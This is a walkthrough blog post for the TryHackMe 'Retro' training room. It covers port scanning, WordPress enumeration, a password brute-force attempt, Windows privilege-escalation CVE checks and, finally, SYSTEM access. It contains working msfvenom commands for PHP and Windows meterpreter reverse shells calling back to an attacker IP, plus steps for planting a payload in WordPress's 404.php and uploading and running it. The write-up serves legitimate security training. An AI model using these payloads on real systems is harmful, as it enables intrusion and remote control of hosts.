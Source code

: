 ```yaml
---
layout: post
title: "THM - Retro writeup"
date: 2024-01-02
image: /assets/images/retro/thm_retro_banner.png
tags:
  [
    tryhackme,
    writeups,
    windows,
    nmap,
    feroxbuster,
    wpscan,
    smb,
    wordpress,
    meterpreter,
  ]
categories: [TryHackMe, Writeup]
redirect_from: /2024/01/02/thm-retro/
---
```


Hi,

this is my Writeup for the [Retro](https://tryhackme.com/room/retro) box of
[TryHackMe](https://tryhackme.com). This box is the final room of the
[Offensive Pentesting](https://tryhackme.com/paths) path.

## Information gathering

First I have to know what is in front of me. So I started the machine and after
that start with nmap.

```bash
nmap -Pn -p- TARGET_MACHINE_IP -oN ports
```

That scan reveals two open ports:

- 80 which is running a webserver
- 3389 which is the rdp service

To get the running services, I always use this command:

```bash
nmap -Pn -sC -sV -p $(grep -Po '[0-9]*(?=/tcp)' ports | tr '\n' ', ') TARGET_MACHINE_IP -oN services
```

<!--more-->

## A web server is running on the target. What is the hidden directory which the website lives on?

To answer this question, I used my favorit content discovery tool:
[feroxbuster](https://github.com/epi052/feroxbuster).

```bash
feroxbuster -w /PATH/TO/SECLISTS/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://TARGET_MACHINE_IP
```

![ferox_scan.png](/assets/images/retro/ferox_scan.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

There is the (not so) hidden directory. And another interesting thing showed up:
`wp-content`. So there is wordpress running. Good to know.

## user.txt

This one is easier then I thought. When looking around the blog entries from the
hidden directory, it is clear that the user `Wade` which has posted all the
entries, should be the username itself for wordpress and/or rdp session. I did
what every beginner would do: Start wpscan before further investigation.

```bash
wpscan --url http://TARGET_MACHINE_IP/*****/wp-login.php --usernames ["Wade"] --passwords /PATH/TO/rockyou.txt -t 200
```

But this takes very long. While I'm writing this, it is still running for about
25 min so far. I decided to read the blog entries, because I have to wait
anyway. And there it was! A suspecious blog entry:

![sus_entry.png](/assets/images/retro/sus_entry.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

comment section of this blog entry, I found the password in cleartext. And glad
I do so, because the cracking process was at this point after 41 min:

```
Trying [Wade] / carla Time: 00:41:33 <      > (1332 / 14344398)
```

> But the password is at position >1'400'000. So 41 min for position 1'332.
> Spare your time and read through the blog instead of bruteforcing it.
{: .prompt-warning}

After that, I used the credentials to login via rdp with the user `Wade`. And it
was succesful. Also login with the same credentials over wordpress login page
was succesful. On the users desktop, there lays a file named user.txt, which
contains the flag.

## root.txt

To get the root flag, it is obvious that some privelege escalation should be
done. A [cheatsheet](https://0xsp.com/offensive/privilege-escalation-cheatsheet)
should help us to start. Now the systeminfo command helps us alot:

![sysinfo.png](/assets/images/retro/sysinfo.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

The version could be important. I decided to check the build version with the so
called
«[common kernel exploits](https://0xsp.com/offensive/privilege-escalation-cheatsheet/#Common_Kernel_Exploits)».
Glad microsoft has a list on the side to check even faster:
[securitybulletins](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014).

No one of the MS16-0\*'s would work here. Just `CVE-2020-0796` and
`CVE-2019-1388`.

#### CVE-2020-0796

To check for this vulnerability, I read this article:
[SMBGhost - An Overview of CVE-2020-0796](https://www.keysight.com/blogs/en/tech/nwvs/2022/02/11/smbghost-an-overview-of-cve-2020-0796).
To be affected, the version should be `10.0.18362.329` for the file `srv2.sys`. Aaaand, we are affected!

![srv2sys.png](/assets/images/retro/srv2sys.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

But smbv3 seems not enabled:

![smbv3Disabled.png](/assets/images/retro/smbv3Disabled.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

In this case we are not affected. Sadly. But move on to the last vulnerability
of the list.

#### CVE-2019-1388

By searching for the vulnerability and the
[KB](https://en.wikipedia.org/wiki/Microsoft_Knowledge_Base) on google, I found
this blog page :
[Patch Windows Certificate Dialog Elevation of Privilege Vulnerability](https://blog.invgate.com/patch-cve-2019-1388#about-cve)
This linked the
[list of patches for every system](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388).
With this, we get the KB number: `KB4519976`

![KBnumber.png](/assets/images/retro/KBnumber.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Yes! The target machine is vulnerable to cve-2019-1388! And ye, this is a easy
room so there was another hint, that this vulnerability should be used:

![trash.png](/assets/images/retro/trash.png){: .w-75 w='1212' h='668' }

This is the exploit which is used for cve-2019-1388.

I found a Video which explains very good, how to do so:

{% include embed/youtube.html id='3BQKpPNlTSo' %}

I followed all the steps but there was a problem:

![noBrowser.png](/assets/images/retro/noBrowser.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now this is not working and even the workaround, which could be found in other
writeups, where you have to initialize IE and Google Chrome browser before you
try to exploit, didn't work for me.

#### MS16-075

Because I was so desperate, I looked at the previous MS16-0\* vulnerabilities. I
thought there must be another way in! How do I check this? Now it seems that we
are, because our user is low priv, not able to check for installed
updates/patches. To check, I decided to run the exploit.

But it fails because the user «Wade» is missing some previleges:

![FailedMS1675.png](/assets/images/retro/FailedMS1675.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

I almost gave up on this vulnerability, but then I thought about it. There is a
wordpress running. I bet it is running from a different user! Lets check the
wordpress admin dashboard.

![wplogin.png](/assets/images/retro/wplogin.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Yes, the 404.php for example can be edited. To get a reverse shell there, we can
use msfvenom.

Create the payload:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=VPN_TUN_IP LPORT=4445 -f raw > rev.php
```

![404html.png](/assets/images/retro/404html.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now when the payload is created, copy the content of the rev.php file into the
404.php and save/update the file. After that, when navigating to a page which is
not existing, the php-code would be triggered. Right before, start msfconsole
and use the `exploit/multi/handler`.

![meterpreter.png](/assets/images/retro/meterpreter.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now we have a php-meterpreter as the user «IUSR». And I write php-meterpreter
because you have to know that this is another kind of meterpreter than the tcp
one. And to get a «normal» tcp reverse shell, we can do the same from here.

First create the exploit:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=VPN_TUN_IP LPORT=4444 -f exe -o revtcp.exe
```

After that, you can upload it from the php-meterpreter session:

```
meterpreter > upload revtcp.exe
```

I had to change the directory to C:\temp (just created the temp folder) because
we have no permission to upload the file anywhere. Now, when you have prepared
another multi handler listener for the tcp reverse shell, you can run the
payload and you have a normal meterpreter which should work for the ms16_075
exploit.

```
meterpreter > execute -f revtcp.exe
```

But even with this, the exploit is not successful.

![noMS16.png](/assets/images/retro/noMS16.png){: w='1212' h='668' }

As I tried to figure it out what the problem may cause, I saw a cheap weapon
while scrolling trough the help output of meterpreter.

![ShouldI.png](/assets/images/retro/ShouldI.png){: w='1212' h='668' }

And with this automated action, I was able to gain system privilege. But I call
it «cheap» because it is like other automated scanning tools. You dont need to
search and understand yourself, the tool is gonna do it for you. But this time,
I gave it a try, because all vulnerabilities who should work, are for some
reason not working. I read walkthroughs about this room and they all have solve
it with the two vulnerabilities which I tried first. And in the end: Cracked is
cracked.

![getRoot.png](/assets/images/retro/getRoot.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now with system priv you should be able to search for the root.txt file.

```powershell
Get-ChildItem -Path C:\ -Include *root.txt* -File -Recurse -ErrorAction SilentlyContinue
```

Good luck :)

---

![darksoulsMeme.png](/assets/images/darksoulsMeme.png){: width="972" height="589" }
